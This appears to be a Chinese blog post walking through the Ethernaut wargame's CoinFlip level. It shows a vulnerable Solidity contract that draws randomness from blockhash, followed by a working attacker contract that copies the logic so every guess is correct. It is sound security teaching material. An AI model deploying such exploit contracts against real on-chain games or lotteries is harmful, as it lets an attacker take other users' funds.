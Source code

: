 ```yaml
---
title: '链上生成随机数问题'
date: 2022-12-7 16:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第三关coinflip 思路与POC

##### 目标: 猜对10次flip函数得出的结果

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //核心逻辑:利用区块高度-1除以FACTOR得出随机数
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

#### 乍一看似乎没有问题,实际上纯粹使用链上数据生成的随机数就必然能够被恶意合约利用.

##### poc思路:game_die: :恶意合约只需要根据coinfilp合约生成随机数的核心逻辑复刻一份即可,只要两份合约部署在同一链上就能利用

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

//复制一份CoinFlip合约代码
import "./CoinFlip.sol";

contract hackFilp  {

   uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
   //根据合约地址取得实例
   CoinFlip public filp =  CoinFlip(0x515f81b42E60D8ad5b15FbD43330A3b5bD3D8574);
 

  function hackFlip(bool _guess) public {
    
    // 需要hack合约上的随机数生成逻辑
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;

    bool side = coinFlip == 1 ? true : false;
     
     //扭转错误的猜测
    if (side == _guess) {
        filp.flip(_guess);
    } else {
   
        filp.flip(!_guess);
    }
}

}
```

![info](./assets/1670489224267.png)